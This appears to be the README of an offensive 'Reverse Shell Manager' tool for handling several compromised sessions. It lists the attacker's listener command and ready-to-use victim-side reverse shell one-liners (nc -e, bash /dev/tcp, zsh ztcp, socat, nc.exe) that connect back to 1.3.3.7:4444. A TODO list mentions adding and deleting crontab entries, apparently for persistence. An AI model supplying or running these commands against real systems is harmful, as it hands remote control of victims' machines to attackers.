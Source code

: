 # Reverse Shell Manager

```
A multiple reverse shell sessions/clients manager via terminal
```
**This project will not continue develope anymore.**  

#### Attacker side
```
python Reverse-Shell-Manager.py 0.0.0.0 4444
```
#### Victims sides
> Linux
```
nc -e /bin/bash 1.3.3.7 4444
bash -c 'bash -i >/dev/tcp/1.3.3.7/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.3.3.7 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.3.3.7:4444  
```
> Windows
```
nc.exe -e /bin/bash 1.3.3.7 4444
```

#### Simple Example Video 

[![asciicast](https://asciinema.org/a/143640.png)](https://asciinema.org/a/143640)

#### YouTube Example
> https://youtu.be/AoS-q1MGw30  


#### TODO
- [x] Add an item to crontab
- [x] Delete an item from crontab
- [ ] create a class to hold Master
- [ ] select/epoll

#### Bugs

- [x] A victim is connected but didn't add to online list
- [ ] socket stuck on rece()
